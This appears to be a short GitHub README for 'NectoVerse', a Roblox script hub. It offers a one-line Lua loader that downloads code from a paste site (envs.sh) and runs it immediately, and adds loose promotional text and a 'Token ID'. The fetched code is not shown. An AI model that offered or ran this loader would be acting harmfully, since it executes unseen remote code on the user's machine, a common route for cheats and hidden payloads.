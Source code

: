 # NectoVerse-Industries--Data

```
loadstring(game:HttpGet(('https://envs.sh/eXL.txt'),true))()
```

- Launcher Data For NectoVerse Products In future.

- Our Products Are Newly Produced recently That's why our hub doesnt have any much products. Our Launcher and hub are the first Products AKA *Script*. it's a very good product produced in 2023 by NectoVerse.

- NectoHUB Version: 5
- NectoLauncher Version: 3.0.4


Our releases Contain our scripts which are made by NVD.

> Our Industry have capabilities to recreate an script.
>
- Token ID: A9aj9Hh8H8ah8ah8j
- 16 Digit Token.

<img src="Images/NectoVerse.png" width="320" height="200"><img src="Images/ScarletArts.png" width="320" height="200">
> 2024 Creation | Development Scripts, Recreations.
> Certified By ScarletArts. | 2024 Certification.
> Signed by Tensei Lawden.
